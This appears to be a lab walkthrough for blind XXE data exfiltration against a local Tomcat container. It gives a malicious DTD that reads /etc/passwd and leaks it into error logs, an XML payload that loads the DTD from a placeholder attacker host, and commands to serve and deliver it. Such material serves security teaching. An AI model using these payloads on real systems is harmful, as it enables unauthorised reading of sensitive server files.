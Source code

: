 # Data Exfiltration via Blind XXE

## Scenario 
Attacker has read access to server logs, and the application is vulnerable to blind XXE

## Steps

1. Create `evil.dtd` file. Paste following contents:

    ```XML
    <!ENTITY % data SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%data;'>">
    %eval;
    %error;
    ```

2. As an attacker, serve the malicious DTD file

    ```python
    python3 -m http.server 2122
    ```

3. Create `evil.xml` file, as shown below. Include a link to the malicious DTD file served on attacker's server:
   
   ```XML
    <!DOCTYPE doc [
    <!ENTITY % ent SYSTEM "http://ATTACKER_IP_ADDRESS:2122/evil.dtd">
    %ent;
    ]>
    <x>Dummy</x>
   ```

4. Find the container ID (e.g., `d11d200f5264`) of running Tomcat container

        docker ps -a | grep tomcat

5. Move the contents of `evil.xml` file into `employees.xml` file (that resides inside the Tomcat container)

    ```bash
    docker cp evil.xml d11d200f5264:/var/tmp/employees.xml
    ```

6. Navigate to http://localhost:1234/HelloXML/HelloXMLServlet

    ![Post attack GUI](image/2021-03-02_18-16_post_attack_gui.png)

7. Read the server logs

        docker logs TOMCAT_CONTAINER_ID

    ![Read error logs](image/2021-03-02_18-25_data_exfiltration_via_error_logs.png)

    Notice that the contents of `/etc/passwd` file are dumped into the server logs. Similarly, contents of other sensitive files could also be read.
